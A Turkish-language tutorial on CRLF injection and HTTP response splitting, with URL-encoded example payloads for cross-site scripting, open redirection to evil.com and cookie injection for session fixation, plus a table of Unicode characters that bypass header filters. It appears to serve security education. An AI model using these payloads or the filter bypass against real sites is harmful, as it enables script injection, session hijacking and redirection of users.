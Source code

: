 # CRLF Nedir?
CRLF Injection, saldırganın HTTP başlıklarına CRLF karakterleri (\r\n) enjekte edebilmesi durumunda ortaya çıkar. Bu durum, HTTP Response Splitting'e yol açabilir. Bir web uygulaması, HTTP başlıklarını oluştururken kullanıcı girdisini kullanıyorsa. Saldırgan, bu girdiyi manipüle ederek ek başlıklar enjekte edebilir veya HTTP yanıtını bölebilir. Bu durum şu güvenlik risklerine yol açabilir:

- Cross-Site Scripting (XSS): İkinci yanıta kötü amaçlı script ekleme.
- Cache Poisoning: Yanlış içeriğin önbelleğe alınmasını sağlama.
- Header Manipulation: Başlıkları değiştirerek kullanıcıları veya sistemleri yanıltma.

# Cross-Site Scripting
CRLF injection ile en kolay istismar yöntemi, sayfanın gövdesini (body) yeniden yazmaktır. Bu teknik javascript kodu çalıştırmak için kullanılabilir.

Örnek istek:
```url
%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Cscript%3Ealert(document.cookie)%3C/script%3E
```

Sunucu yanıtı:
```http
HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 39
 
<script>alert(document.cookie)</script>
```

# Open Redirection
Kullanıcı girdisi, Location header’ında kullanılıyorsa, CRLF enjekte edilerek saldırgan yeni bir Location header ekleyebilir.

Örnek istek:
```url
%0D%0ALocation:%20https://evil.com
```

Sunucu yanıtı:
```http
HTTP/1.1 302 Found
Location: /normal-path
Location: https://evil.com
```

Tarayıcı ikinci Location’u uygulayarak kullanıcıyı zararlı siteye yönlendirir.

# Cookie Injection ve Session Fixation
Set-Cookie header’ında kullanıcı girdisi kontrolsüz kullanılıyorsa, saldırgan yeni cookie başlıkları enjekte edebilir.

Örnek istek:
```http
%0D%0ASet-Cookie:%20aASP.NET_SessionId=doonz8hcdquy72tkvfflqy34d;
```

Sunucu yanıtı:
```
Set-Cookie: ASP.NET_SessionId=doonz8hcdquy72tkvfflqy34d;
```

Bu durumda saldırgan, kullanıcının tarayıcısına kendi belirlediği sessionid değerini yazdırarak Session Fixation saldırısı gerçekleştirebilir. Kullanıcı bu session ID ile oturum açtığında, saldırgan aynı oturumu kullanarak hesabı ele geçirebilir (Account Takeover).

# Filter Bypass
RFC 7230, çoğu HTTP başlık alanı değerinin yalnızca US-ASCII karakter setinin bir alt kümesini kullanması gerektiğini belirtir.

| UTF-8 Character | Hex | Unicode | Stripped |
| --------- | --- | ------- | -------- |
| `嘊` | `%E5%98%8A` | `\u560a` | `%0A` (\n) |
| `嘍` | `%E5%98%8D` | `\u560d` | `%0D` (\r) |
| `嘾` | `%E5%98%BE` | `\u563e` | `%3E` (>)  |
| `嘼` | `%E5%98%BC` | `\u563c` | `%3C` (<)  |

# HTTP/2 ve HTTP/3 Neden Daha Güvenli
- HTTP/2 ve HTTP/3, header’ları binary frame formatında taşır.
- \r\n gibi ASCII karakter dizileriyle header sonlandırma mantığı yoktur.
- Bu yüzden klasik CRLF injection ile header yapısını bozamazsın.
- Ancak HTTP/1.1 fallback aktifse, hala risk vardır.

Referanslar:
- https://www.insecure.in/crlf-injection-attack
- https://www.invicti.com/learn/crlf-injection/
- https://playbook.sidthoviti.com/web-app-pentesting/crlf-injection
